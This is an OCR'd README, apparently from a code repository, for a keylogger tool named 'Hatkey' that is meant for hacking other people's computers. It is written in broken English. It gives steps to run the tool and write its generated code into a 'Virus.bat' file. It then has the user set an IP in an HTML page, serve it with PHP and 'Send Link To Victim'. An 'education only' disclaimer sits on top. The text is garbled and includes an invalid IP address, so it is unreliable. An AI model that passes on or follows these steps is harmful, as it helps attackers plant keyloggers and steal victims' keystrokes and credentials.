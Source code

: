            
           HELLO Guy This Hack Is Only For Education Proposal Dlso PleaseDon't be do any illegal activity
           
          # HACK BY# RAHUL
          This Zip Is For Hack Computer 
          Through Keylogger 
          How To
          Command
          Cd Hatkey.Zip
          ls
          cd Hatkey.zip
          ls
          Cd Hatkey
          ls
          Python2 Hatkey.Py
          
          SHOW
          Set Host Ip 
          Run
          Copy Code
          
          New Sission
          ls 
          Cd Php
          ls
          Nano Virus.bat
          Paste 
          Ctrl X
          Y
          Enter
          Nano Index Html 
          Scroll Down
          Set Your Ip 100.56.32.6767
          Ctrl X 
          Y
          Php -S 100.56.32.6767
          Enter
          Send Link To Victim
          You Can  Also Search Your Link Directly In WeB 
          
